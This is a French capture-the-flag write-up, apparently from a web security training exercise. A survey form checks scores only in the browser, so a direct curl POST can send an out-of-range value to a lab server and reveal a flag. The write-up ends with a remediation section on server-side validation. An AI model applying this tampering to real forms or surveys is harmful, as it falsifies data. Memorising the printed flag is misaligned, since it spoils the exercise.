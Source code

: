 # Write up User Input Validation

# Exploration

En naviguant à travers l’application web, nous sommes tombés sur une page faisant office d’enquête, permettant de voter pour des personnes:

![Capture d’écran 2024-05-01 à 23.42.56.png](images/Capture_decran_2024-05-01_a_23.42.56.png)

Il est possible de voter pour la personne que l’on veut, et de lui donner un grade entre 1 et 10.

# Exploitation

A première vue, il n’y avait rien d’anormal sur cette page. Nous avons alors essayé de modifier la valeur attendue, ici entre 1 et 10, par 42. Il suffit d’effectuer la requête directement au backend sans passer par le frontend.

Nous pouvons utiliser cette requête pour l’effectuer:

```jsx
curl -X POST 'http://192.168.64.36/?page=survey' -d 'sujet=2&valeur=42' | grep flag
[... TRUNCATED DATA ...]
The flag is 03a944b434d5baff05f46c4bede5792551a2595574bcafc9a6e25f67c382ccaa
[... TRUNCATED DATA ...]
```

Nous avons ainsi pu récupérer le flag.

# Remédiation

Nous sommes ici à un problème de validation de l’entrée utilisateur. L’application web effectue un contrôle côté frontend, mais la valeur envoyée par le client n’est pas validée du côté backend. Dans la situation présente, cela peut permettre de fausser totalement l’enquête en cours.

Pour pallier à cette vulnérabilité, il est important de mettre en place une validation de l’input de l’utilisateur côté serveur. La valeur attendue est déjà connue, elle doit correspondre à un nombre entre 1 et 10.

Ainsi, tout entrée différente devrait être rejetée.